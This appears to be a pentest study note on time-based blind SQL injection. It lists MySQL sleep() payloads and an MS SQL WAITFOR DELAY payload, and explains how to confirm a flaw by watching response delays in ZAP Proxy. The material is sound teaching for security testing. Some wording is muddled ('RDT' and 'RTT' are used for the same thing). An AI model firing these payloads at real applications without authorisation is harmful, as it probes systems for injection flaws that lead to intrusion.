


Blind SQLi: Blind Timing
This technique uses SQLi to inject a payload that will, if TRUE, introduce a perceptible impact on the responsiveness of the application.
Use between 15-30 seconds for the sleep payload to determine if the page is actually vulnerable
◇ MySQL
▪ [value]' and sleep(15);# → if value is found then it will delay
▪ [value]' and sleep(15)# → if value is found then it will delay
▪ ' or sleep(15) and 1=1#
▪ ' or sleep(15)#
▪ ' union select sleep(15),null#
◇ MS SQL
▪ ' AND WAITFOR DELAY '0:0:10';#
ExampleTo Check this we need take note of the Round Delay Trip (RDT) on the ZAP Proxy
How we can see the RTT of the SQLi is much longer this mean that the web application is vulnerable
WARNING: As said above the value that we are going to check (in our example Dent) must be TRUE otherwise the command that come after is not evaluated